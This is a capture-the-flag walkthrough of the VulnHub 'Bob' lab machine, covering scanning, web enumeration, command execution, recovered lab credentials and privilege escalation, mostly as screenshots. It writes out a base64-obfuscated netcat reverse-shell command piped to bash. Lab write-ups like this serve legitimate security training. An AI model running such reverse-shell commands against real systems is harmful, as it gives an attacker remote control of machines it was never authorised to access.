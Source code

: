 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Bob


## **Description ⤵️**


> 💡 Difficulty: Beginner/Intermediate → [Bob](https://vulnhub.com/entry/bob-101,226/)<br>
<br>
    Bob is my first CTF VM that I have ever made so be easy on me if it is not perfect.
<br><br>
    The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
<br>
    ---<br>
<br>
    Your Goal is to get the flag in /
<br>
    Hints: Remember to look for hidden info/files
<br>
    ## Changelog v1.0 ~ 2018-03-07 v1.0.1 ~ 2018-03-09
{: .prompt-info }

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Bob/Untitled.png)

```bash
IP : 10.0.2.18
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%202.png)

```bash
OPEN PORTS >
80     HTTP (Enumeration Further !)
25468  SSH  (Hidding the ssh port from changing it is good stategy !)
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%203.png)

Lets check the robots.txt file →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%206.png)

lets try to get the output now → `for command : id`

![Untitled](/Vulnhub-Files/img/Bob/Untitled%207.png)

Lets try to generate reverse shell from it →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%208.png)

Now let is try the reverse shell Now →

```bash
command ->
**echo** "bmMgMTAuMC4yLjEwIDQ0NDQgLWUgL2Jpbi9iYXNoCg==" **|** base64 -d **|** **bash**
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%209.png)

Look what  I found →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2010.png)

```bash
jc		:	Qwerty
seb	:	T1tanium_Pa$$word_Hack3rs_Fear_M3
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2012.png)

```bash
elliot  :  theadminisdumb
```

After very much enumeration of directories  I got this folder and The secret part was the `HARPOCRATES`

Harpocrates was the Greek god of silence, secrets, and confidentiality.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2013.png)

Now for extracting this I used this parapharase →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2015.png)

```bash
And I got this credential →
bob	:	b0bcat_
```

Lets see how bob can lead us to root —>

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2017.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2018.png)
<br>
<br>
<br>
---